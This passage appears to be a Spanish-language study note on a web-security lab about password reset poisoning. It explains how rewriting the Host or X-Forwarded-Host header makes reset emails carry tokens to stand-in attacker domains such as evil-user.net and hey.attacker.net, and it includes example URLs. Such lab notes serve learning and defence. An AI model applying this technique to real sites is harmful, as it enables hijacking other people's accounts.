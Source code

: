 podemos descifrarlo y tratar de recuperar su contraseña en texto plano:

![[Pasted image 20230206153823.png]]

![[Pasted image 20230206153901.png]]

## Password reset poisoning via middleware

Si la URL de reestablecimiento de contraseña que se envía al usuario se genera dinámicamente en función de una entrada controlable, como el encabezado del host, es posible construir un ataque de envenenamiento de restablecimiento de contraseña de la siguiente manera:

1.  El atacante obtiene la dirección de correo electrónico o el nombre de usuario de la víctima, según sea necesario, y envía una solicitud de restablecimiento de contraseña en su nombre. Al enviar el formulario, interceptan la solicitud HTTP resultante y modifican el encabezado del Host para que apunte a un dominio que controlan. Para este ejemplo, usaremos `evil-user.net`.
2.  La víctima recibe un correo electrónico de restablecimiento de contraseña genuino directamente desde el sitio web. Esto parece contener un enlace ordinario para restablecer su contraseña y, lo que es más importante, contiene un token de restablecimiento de contraseña válido que está asociado con su cuenta. Sin embargo, el nombre de dominio en la URL apunta al servidor del atacante:
    
```http
https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j
```
    
3.  Si la víctima hace clic en este enlace (o se obtiene de alguna otra manera, por ejemplo, mediante un escáner antivirus), el token de restablecimiento de contraseña se entregará al servidor del atacante.
4.  El atacante ahora puede visitar la URL real del sitio web vulnerable y proporcionar el token robado de la víctima a través del parámetro correspondiente. Luego podrán restablecer la contraseña del usuario a lo que quieran y luego iniciar sesión en su cuenta.


**EJEMPLO**

supongamos que tenemos un link de **Forgot password?** en un inicio de sesion y tenemos un usuario propio para probar, vemos como se envia la peticion: (la pagina nos pedia un nombre de usuario)

![[Pasted image 20230206205627.png]]

y asi es como llega a su correo:

![[Pasted image 20230206205734.png]]

```bash
https://0a1800590338ee70c0cca01d00bc00fd.web-security-academy.net/forgot-password?temp-forgot-password-token=93Eo0CuyPony67DC6Qv7x3fvqoCqWDyZ
```

Resulta que toma la base del URL (0a1800590338ee70c0cca01d00bc00fd.web-security-academy.net) del encabezado `Host` o `X-Forwarded-Host` y esos parametros lo podemos controlar.

Asi que podemos definir nuestro servidor de atacante, colocar el username de nuestra vicitima y enviarlo cosa de que llegue algo asi:

```bash
https://hey.attacker.net/forgot-password?temp-forgot-password-token=93Eo0CuyPony67DC6Qv7x3fvqoCqWDyZ
```
